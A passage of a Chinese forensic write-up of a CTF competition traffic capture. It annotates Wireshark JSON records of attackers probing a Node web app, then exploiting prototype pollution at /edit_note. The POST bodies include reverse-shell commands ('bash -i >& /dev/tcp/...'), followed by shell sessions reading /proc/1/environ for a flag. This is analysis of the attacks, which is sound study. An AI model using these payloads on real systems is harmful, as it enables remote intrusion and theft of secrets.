2d:65:78:63:68:61:6e:67:65:3b:76:3d:62:33:3b:71:3d:30:2e:37:0d:0a:41:63:63:65:70:74:2d:45:6e:63:6f:64:69:6e:67:3a:20:67:7a:69:70:2c:20:64:65:66:6c:61:74:65:0d:0a:41:63:63:65:70:74:2d:4c:61:6e:67:75:61:67:65:3a:20:65:6e:2d:55:53:2c:65:6e:3b:71:3d:30:2e:39:0d:0a:43:6f:6f:6b:69:65:3a:20:50:48:50:53:45:53:53:49:44:3d:32:69:73:64:65:6b:6d:6f:64:6e:37:74:6a:75:33:38:31:6f:6d:74:31:6c:30:34:70:30:0d:0a:55:70:67:72:61:64:65:2d:49:6e:73:65:63:75:72:65:2d:52:65:71:75:65:73:74:73:3a:20:31:0d:0a:58:2d:46:6f:72:77:61:72:64:65:64:2d:46:6f:72:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:0d:0a:0d:0a"}}
```
### 12
没有找到任何对10.0.0.6靶机的访问信息(应该是摆了
### 17
(准备动作) `Apr 14, 2023 19:40:38.340270000` 攻击者第一次访问网站
```
{"http": {"GET / HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET / HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Connection: close\r\n", "http.user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "http.accept_encoding": "gzip, deflate", "http.accept_language": "zh-CN,zh;q=0.9", "http.connection": "close", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/", "http.request": "1", "http.request_number": "1", "http.response_in": "590922", "http.next_request_in": "591075"}, "frame.time": "Apr 14, 2023 19:40:38.340270000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(失败动作) 随后攻击者启用了类似`dirsearch`的工具，对网站的路由进行了随机访问，例如`/.git`,`/status`,`/resource.jsp`，产生了大量的访问日志（9000+），然后发现网站路由扫描工具发现`/status`返回了200，攻击者进行了多次反复的访问，并且携带了一些参数
```
{"http": {"GET /status?full=true HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /status?full=true HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/status?full=true", "http.request.uri_tree": {"http.request.uri.path": "/status", "http.request.uri.query": "full=true", "http.request.uri.query_tree": {"http.request.uri.query.parameter": "full=true"}}, "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Connection: close\r\n", "http.cache_control": "max-age=0", "http.user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "http.accept_encoding": "gzip, deflate", "http.accept_language": "zh-CN,zh;q=0.9", "http.connection": "close", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/status?full=true", "http.request": "1", "http.request_number": "15117", "http.prev_request_in": "693412", "http.response_in": "694036", "http.next_request_in": "694156"}, "frame.time": "Apr 14, 2023 19:54:28.777510000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(失败动作) `Apr 17, 2023 23:04:50.821699000 CST` 攻击者多次访问一些可能的网页关键路由，此处是`/notes`,`/mess`，但没有获得有效结果
```
{"http": {"GET /mess HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /mess HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/mess", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Upgrade-Insecure-Requests: 1\r\n", "http.user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "en-US,en;q=0.5", "http.accept_encoding": "gzip, deflate", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/mess", "http.request": "1", "http.request_number": "4", "http.prev_request_in": "4225696"}, "frame.time": "Apr 17, 2023 23:04:50.821699000 CST"}
{"http": {"GET /note HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /note HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/note", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Upgrade-Insecure-Requests: 1\r\n", "http.user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "en-US,en;q=0.5", "http.accept_encoding": "gzip, deflate", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/note", "http.request": "1", "http.request_number": "5", "http.prev_request_in": "4245075"}, "frame.time": "Apr 17, 2023 23:04:55.973361000 CST"}
```
(失败动作) `Apr 17, 2023 23:44:14.410591000 CST` 攻击者试图在可能的路由上进行原型链污染的攻击，但是没有找到合适的路由入口，此处的攻击是：`/notes?q=__proto__`
```
{"http": {"GET /notes?q=__proto__ HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /notes?q=__proto__ HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/notes?q=__proto__", "http.request.uri_tree": {"http.request.uri.path": "/notes", "http.request.uri.query": "q=__proto__", "http.request.uri.query_tree": {"http.request.uri.query.parameter": "q=__proto__"}}, "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Accept: */*\r\n", "http.user_agent": "curl/7.66.0", "http.accept": "*/*", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/notes?q=__proto__", "http.request": "1", "http.request_number": "1"}, "frame.time": "Apr 17, 2023 23:44:14.410591000 CST"}
```
(成功动作) `Apr 18, 2023 10:37:20.221962000 CST` 攻击者发现了`/edit_note`路由里代码的漏洞，并构造了特殊的参数进行攻击，该参数旨在对原型链增加新的两个属性，其中一个属性是shell命令，该shell命令的内容是建立反向shell，该命令会在其他地方被恶意执行
```
{"http": {"POST /edit_note HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "POST /edit_note HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "POST", "http.request.uri": "/edit_note", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Content-Length: 86\r\n", "http.user_agent": "python-requests/2.27.1", "http.accept_encoding": "gzip, deflate, br", "http.accept": "*/*", "http.connection": "keep-alive", "http.content_type": "application/x-www-form-urlencoded;charset=utf-8", "http.content_length_header": "86", "http.content_length_header_tree": {"http.content_length": "86"}, "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/edit_note", "http.request": "1", "http.request_number": "2", "http.prev_request_in": "4790228", "http.file_data": "id=__proto__&author=sh+-i+%3E%26+%2Fdev%2Ftcp%2F99.999.9.17%2F1991+0%3E%261&raw=123456"}, "frame.time": "Apr 18, 2023 10:37:20.221962000 CST"}
```
(成功动作)`Apr 18, 2023 10:37:21.218745000 CST` 攻击者访问/status路由，成功建立了反向shell
```
{"http": {"GET /status HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /status HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/status", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Connection: keep-alive\r\n", "http.user_agent": "python-requests/2.27.1", "http.accept_encoding": "gzip, deflate, br", "http.accept": "*/*", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/status", "http.request": "1", "http.request_number": "3", "http.prev_request_in": "4791848"}, "frame.time": "Apr 18, 2023 10:37:21.218745000 CST"}


(成功动作) `Apr 18, 2023 10:37:36.609982000` 攻击者利用反弹shell，开始在靶机内寻找flag，先是查看靶机是否支持grep命令，然后运行`grep -rni "flag=" /proc`命令，查找在/proc目录及其所有子目录中，搜索所有包含flag=（忽略大小写）的行
```
{"frame.time": "Apr 18, 2023 10:37:36.609982000 CST", "tcp": {"tcp.srcport": "1991", "tcp.dstport": "52390", "tcp.port": "52390", "tcp.stream": "147862", "tcp.completeness": "15", "tcp.len": "15", "tcp.seq": "16", "tcp.seq_raw": "2782177223", "tcp.nxtseq": "31", "tcp.ack": "118", "tcp.ack_raw": "2243730639", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "2051", "tcp.window_size": "131264", "tcp.window_size_scalefactor": "64", "tcp.checksum": "0x0aec", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:82:34:4d:2f:da:56:d3:53", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:82:34:4d:2f:da:56:d3:53", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "2184465711", "tcp.options.timestamp.tsecr": "3663123283"}}, "Timestamps": {"tcp.time_relative": "15.366470000", "tcp.time_delta": "7.311375000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.099807000", "tcp.analysis.bytes_in_flight": "15", "tcp.analysis.push_bytes_sent": "15"}, "tcp.payload": "67:72:65:70:20:2d:2d:76:65:72:73:69:6f:6e:0a"}}
```
```
{"frame.time": "Apr 18, 2023 10:39:08.042372000 CST", "tcp": {"tcp.srcport": "1991", "tcp.dstport": "52390", "tcp.port": "52390", "tcp.stream": "147862", "tcp.completeness": "15", "tcp.len": "24", "tcp.seq": "70", "tcp.seq_raw": "2782177277", "tcp.nxtseq": "94", "tcp.ack": "1210", "tcp.ack_raw": "2243731731", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "2048", "tcp.window_size": "131072", "tcp.window_size_scalefactor": "64", "tcp.checksum": "0xb2c1", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:82:35:b2:83:da:58:48:c9", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:82:35:b2:83:da:58:48:c9", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "2184557187", "tcp.options.timestamp.tsecr": "3663218889"}}, "Timestamps": {"tcp.time_relative": "106.798860000", "tcp.time_delta": "3.192826000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.099807000", "tcp.analysis.bytes_in_flight": "24", "tcp.analysis.push_bytes_sent": "24"}, "tcp.payload": "67:72:65:70:20:2d:72:6e:69:20:22:66:6c:61:67:3d:22:20:2f:70:72:6f:63:0a"}}
```
(成功动作) `Apr 18, 2023 10:51:47.701853000 CST`，grep命令返回乐`Binary file /proc/1/environ matches
`，表明在二进制文件`/proc/1/environ`找到了符合flag特征的字符串（攻击者可能是在已经获取flag之后再扫描的，属于是有的放矢）
```
{"frame.time": "Apr 18, 2023 10:51:47.630487000 CST", "tcp": {"tcp.srcport": "38850", "tcp.dstport": "1992", "tcp.port": "1992", "tcp.stream": "147987", "tcp.completeness": "15", "tcp.len": "740", "tcp.seq": "898", "tcp.seq_raw": "2823446305", "tcp.nxtseq": "1638", "tcp.ack": "47", "tcp.ack_raw": "2665206342", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "502", "tcp.window_size": "64256", "tcp.window_size_scalefactor": "128", "tcp.checksum": "0x384d", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:da:63:ec:ca:05:6a:e3:71", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:da:63:ec:ca:05:6a:e3:71", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "3663981770", "tcp.options.timestamp.tsecr": "90891121"}}, "Timestamps": {"tcp.time_relative": "654.188235000", "tcp.time_delta": "0.000053000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.214674000", "tcp.analysis.bytes_in_flight": "740", "tcp.analysis.push_bytes_sent": "740"}, "tcp.payload": "2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:70:72:65:76:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:65:78:65:63:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:66:73:63:72:65:61:74:65:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:6b:65:79:63:72:65:61:74:65:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:73:6f:63:6b:63:72:65:61:74:65:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:64:69:73:70:6c:61:79:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:73:6d:61:63:6b:2f:63:75:72:72:65:6e:74:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:61:70:70:61:72:6d:6f:72:2f:70:72:65:76:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:61:74:74:72:2f:61:70:70:61:72:6d:6f:72:2f:65:78:65:63:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:74:61:73:6b:2f:31:2f:73:74:61:63:6b:3a:20:50:65:72:6d:69:73:73:69:6f:6e:20:64:65:6e:69:65:64:0a:42:69:6e:61:72:79:20:66:69:6c:65:20:2f:70:72:6f:63:2f:31:2f:65:6e:76:69:72:6f:6e:20:6d:61:74:63:68:65:73:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:70:65:72:73:6f:6e:61:6c:69:74:79:3a:20:4f:70:65:72:61:74:69:6f:6e:20:6e:6f:74:20:70:65:72:6d:69:74:74:65:64:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:73:79:73:63:61:6c:6c:3a:20:4f:70:65:72:61:74:69:6f:6e:20:6e:6f:74:20:70:65:72:6d:69:74:74:65:64:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:6d:65:6d:3a:20:50:65:72:6d:69:73:73:69:6f:6e:20:64:65:6e:69:65:64:0a:67:72:65:70:3a:20:2f:70:72:6f:63:2f:31:2f:63:6c:65:61:72:5f:72:65:66:73:3a:20:49:6e:76:61:6c:69:64:20:61:72:67:75:6d:65:6e:74:0a"}}
```


(成功动作) `Apr 18, 2023 10:38:31.135479000 CST` 攻击者通过`cat environ` 发现了`FLAG=ded03181-31e2-476e-aeff-858b6d1ce439`，下面是将tcp.payload 用ascii解码后可以得到命令的内容和返回
```
{"frame.time": "Apr 18, 2023 10:38:31.133537000 CST", "tcp": {"tcp.srcport": "1991", "tcp.dstport": "52390", "tcp.port": "52390", "tcp.stream": "147862", "tcp.completeness": "15", "tcp.len": "12", "tcp.seq": "57", "tcp.seq_raw": "2782177264", "tcp.nxtseq": "69", "tcp.ack": "974", "tcp.ack_raw": "2243731495", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "2048", "tcp.window_size": "131072", "tcp.window_size_scalefactor": "64", "tcp.checksum": "0x376c", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:82:35:22:3b:da:57:a7:47", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:82:35:22:3b:da:57:a7:47", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "2184520251", "tcp.options.timestamp.tsecr": "3663177543"}}, "Timestamps": {"tcp.time_relative": "69.890025000", "tcp.time_delta": "7.525971000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.099807000", "tcp.analysis.bytes_in_flight": "12", "tcp.analysis.push_bytes_sent": "12"}, "tcp.payload": "63:61:74:20:65:6e:76:69:72:6f:6e:0a"}}

```
```
{"frame.time": "Apr 18, 2023 10:38:31.135479000 CST", "tcp": {"tcp.srcport": "52390", "tcp.dstport": "1991", "tcp.port": "1991", "tcp.stream": "147862", "tcp.completeness": "15", "tcp.len": "232", "tcp.seq": "974", "tcp.seq_raw": "2243731495", "tcp.nxtseq": "1206", "tcp.ack": "69", "tcp.ack_raw": "2782177276", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "502", "tcp.window_size": "64256", "tcp.window_size_scalefactor": "128", "tcp.checksum": "0x3651", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:da:57:c5:7a:82:35:22:3b", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:da:57:c5:7a:82:35:22:3b", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "3663185274", "tcp.options.timestamp.tsecr": "2184520251"}}, "Timestamps": {"tcp.time_relative": "69.891967000", "tcp.time_delta": "0.001942000"}, "tcp.analysis": {"tcp.analysis.acks_frame": "4793816", "tcp.analysis.ack_rtt": "0.001942000", "tcp.analysis.initial_rtt": "0.099807000", "tcp.analysis.bytes_in_flight": "232", "tcp.analysis.push_bytes_sent": "232"}, "tcp.payload": "50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:00:48:4f:53:54:4e:41:4d:45:3d:37:31:37:63:61:65:61:61:37:35:65:62:00:46:4c:41:47:3d:64:65:64:30:33:31:38:31:2d:33:31:65:32:2d:34:37:36:65:2d:61:65:66:66:2d:38:35:38:62:36:64:31:63:65:34:33:39:00:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:00:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:00:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:00:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:00:48:4f:4d:45:3d:2f:72:6f:6f:74:00"}}
```

### 25
(准备动作) `Apr 22, 2023 18:31:33.633596000` 攻击者首次访问网站
```
{"http": {"GET / HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET / HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Upgrade-Insecure-Requests: 1\r\n", "http.user_agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "en-US,en;q=0.5", "http.accept_encoding": "gzip, deflate", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/", "http.request": "1", "http.request_number": "46", "http.prev_request_in": "2046723", "http.response_in": "2046927", "http.next_request_in": "2046932"}, "frame.time": "Apr 22, 2023 18:31:33.633596000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(失败动作) `Apr 23, 2023 20:41:10.688684000`  ，两小时后，攻击者尝试询问服务器是否支持更安全的HTTPS协议
```
{"http": {"GET / HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET / HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "If-None-Match: W/\"f-EAPq2ZMIfko4VTCGqJouLn2Q4U8\"\r\n", "http.user_agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "en-US,en;q=0.5", "http.accept_encoding": "gzip, deflate", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/", "http.request": "1", "http.request_number": "105", "http.prev_request_in": "2048961", "http.response_in": "2049064", "http.next_request_in": "2049267"}, "frame.time": "Apr 22, 2023 18:33:56.190537000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(失败动作) `Apr 23, 2023 23:02:14.080424000`，三小时后，攻击者尝试针对`/edit_note`路由进行攻击，POST了一些无用data:
```
{"http": {"POST /edit_note HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "POST /edit_note HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "POST", "http.request.uri": "/edit_note", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Content-Type: application/json\r\n", "http.user_agent": "python-requests/2.28.1", "http.accept_encoding": "gzip, deflate, br", "http.accept": "*/*", "http.connection": "keep-alive", "http.content_length_header": "89", "http.content_length_header_tree": {"http.content_length": "89"}, "http.content_type": "application/json", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/edit_note", "http.request": "1", "http.request_number": "2", "http.response_in": "4258156", "http.next_request_in": "4258225", "http.file_data": ""}, "frame.time": "Apr 23, 2023 23:02:14.080424000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(成功动作)`Apr 23, 2023 23:20:13.282749000`，十几分钟之后，攻击者构造了合适的参数，POST到该路由上，攻击的内容是对原型链进行污染，并且建立从靶机到攻击机的tcp链接，即反弹shell
```
{"http": {"POST /edit_note HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "POST /edit_note HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "POST", "http.request.uri": "/edit_note", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Content-Type: application/json\r\n", "http.user_agent": "python-requests/2.28.2", "http.accept_encoding": "gzip, deflate", "http.accept": "*/*", "http.connection": "keep-alive", "http.content_length_header": "89", "http.content_length_header_tree": {"http.content_length": "89"}, "http.content_type": "application/json", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/edit_note", "http.request": "1", "http.request_number": "1", "http.response_in": "4367369", "http.next_request_in": "4367430", "http.file_data": "{\"id\": \"__proto__\", \"author\": \"cccc\", \"raw\": \"bash -i >& /dev/tcp/99.999.9.25/9999 0>&1\"}"}, "frame.time": "Apr 23, 2023 23:20:13.282749000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(成功动作)`Apr 23, 2023 23:25:35.611917000`，然后访问/status，获得反弹shell
```
{"http": {"GET /status HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /status HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/status", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Connection: keep-alive\r\n", "http.user_agent": "python-requests/2.28.2", "http.accept_encoding": "gzip, deflate", "http.accept": "*/*", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/status", "http.request": "1", "http.request_number": "2", "http.prev_request_in": "4379294", "http.response_in": "4379369"}, "frame.time": "Apr 23, 2023 23:25:35.611917000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(成功动作) 由于接下来是shell交互，主要是tcp交互，所以可以通过解码如下tcp的报文，可以发现这个编号25的真实ip是`10.254.0.29` 
```
{"frame.time": "Apr 23, 2023 23:05:26.435738000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "7001", "tcp.dstport": "34926", "tcp.port": "34926", "tcp.stream": "93309", "tcp.completeness": "63", "tcp.len": "89", "tcp.seq": "633", "tcp.seq_raw": "1709157346", "tcp.nxtseq": "722", "tcp.ack": "466", "tcp.ack_raw": "729452884", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "2048", "tcp.window_size": "131072", "tcp.window_size_scalefactor": "64", "tcp.checksum": "0xc681", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:76:dc:0b:6d:86:f8:ed:5a", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:76:dc:0b:6d:86:f8:ed:5a", 